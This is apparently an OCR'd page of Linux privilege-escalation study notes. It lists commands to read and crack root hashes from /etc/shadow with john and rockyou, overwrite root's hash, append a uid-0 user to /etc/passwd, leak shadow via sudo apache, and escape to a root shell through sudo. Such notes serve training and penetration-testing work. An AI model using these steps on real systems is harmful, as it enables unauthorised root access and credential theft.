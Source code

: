 ## Weak file permissions
### Readable /etc/shadow
ls -l /etc/shadow
head -n 1 /etc/shadow to get password hash of the root.  Password hash is in between ":"
sha512 starts with %6%
crack:  john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt [hash value]

### Writable /etc/shadow
create new password:
    mkpasswd -m sha-512 [password]
copy the above password and replace root password with above in /etc/shadow
su root
    [password]

### Writable /etc/password
second field of user row can contain password hash and will take precendant over /etc/shadow
openssl passwd "[password]"
if you can only append /etc/password you can create a new user with uid 0
    newroot:[password hash]:0:0:root:/root:/bin/bash
     su newroot

## Sudo
sudo <program> :  run as root
sudo -u <username> <program>
sudo -l  (list programs a user is allowed or disallowed to run)

sudo  su  (switch user)
sudo -s 
sudo -i
sudo /bin/bash
sudo passwd

### Shell escape sequences
https://gtfobins.github.io/


### Abusing Intended Functionality 
If we can read files owned by root, we may be able to extract useful information (e.g. passwords, hashes, keys)
for example:
    sudo apache -f /etc/shadow
    - will error out by printing the first line of the file. In this case giving us the root password hash

### Enviornment Variables
In /etc/sudoers file, if the env_reset option is set, sudo will run programs in a new, minimal environment

The env_keep option can be used to keep certain environment variables from the user's environment
